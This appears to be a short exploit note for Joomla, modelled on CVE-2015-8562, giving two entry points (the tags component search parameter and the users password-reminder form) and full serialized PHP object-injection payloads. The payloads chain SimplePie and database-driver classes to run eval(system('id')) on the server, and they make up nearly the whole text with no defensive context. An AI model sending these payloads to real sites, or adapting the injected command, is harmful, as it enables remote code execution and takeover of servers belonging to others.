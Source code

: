 # Like CVE-2015-8562

# Entry point: 

- (1) GET */index.php/component/tags/?filter-search=[payload]*
- (2) POST */index.php/component/users/?task=remind.remind*

# Example: 

- (1) */index.php/component/tags/?filter-search=antonydaubuoi|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:45:"eval(system('id'));JFactory::getConfig();exit";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}ðýýý*

- (2) *jform%5Bemail%5D=antonydaubuoi|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:45:"eval(system('id'));JFactory::getConfig();exit";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}ðýýý&dd4fce6cd3bfdb400f9510a2831ec417=1*
